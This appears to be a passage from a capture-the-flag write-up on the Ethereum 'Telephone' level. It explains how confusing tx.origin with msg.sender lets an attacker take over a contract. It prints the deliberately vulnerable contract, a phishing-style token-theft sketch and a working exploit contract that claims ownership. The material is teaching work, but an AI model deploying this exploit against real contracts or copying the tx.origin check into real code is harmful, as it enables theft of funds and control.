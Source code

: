- [Deploy contract on Rinkeby using Remix and MetaMask](https://ethereum.stackexchange.com/questions/110094/can-i-connect-to-rinkeby-using-remix-and-metamask)
- Solidity - interacting with a deployed contract at an address. Read [this](https://solidity-by-example.org/interface/) or better watch [this](https://www.youtube.com/watch?v=YWtT0MNHYhQ)

### Level 4. Telephone

**Goal**: Gain control of someone else’s smart contract.

[Difference between tx.origin and msg.sender](https://ethereum.stackexchange.com/questions/1891/whats-the-difference-between-msg-sender-and-tx-origin)

While this example may be simple, confusing tx.origin with msg.sender can lead to phishing-style attacks, such as [this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/) and [this](https://hackernoon.com/hacking-solidity-contracts-using-txorigin-for-authorization-are-vulnerable-to-phishing).

An example of a possible attack is outlined below.

1. Use tx.origin to determine whose tokens to transfer, e.g.
   `function transfer(address _to, uint _value) { tokens[tx.origin] -= _value; tokens[_to] += _value; }`

2. Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.
   `function () payable { token.transfer(attackerAddress, 10000); }`

3. In this scenario, tx.origin will be the victim's address (while msg.sender will be the malicious contract's address), resulting in the funds being transferred from the victim to the attacker.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

`player` will call `HackTelephone` contract's `telephone`, which in turn will call `Telephone`'s `changeOwner` with `msg.sender` (which is `player`) as param. In that case `tx.origin` is `player` and `msg.sender` is `HackTelephone`'s address. And since now `tx.origin != msg.sender`, `player` has claimed the ownership.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

interface ITelephone {
    function changeOwner(address _owner) external;
}

contract HackTelephone {
    function telephone(address _telephoneAddr) external {
        ITelephone(_telephoneAddr).changeOwner(0xc85cD8feb12dBFBCA493C8F80b2F93161D0df642);
    }
}
```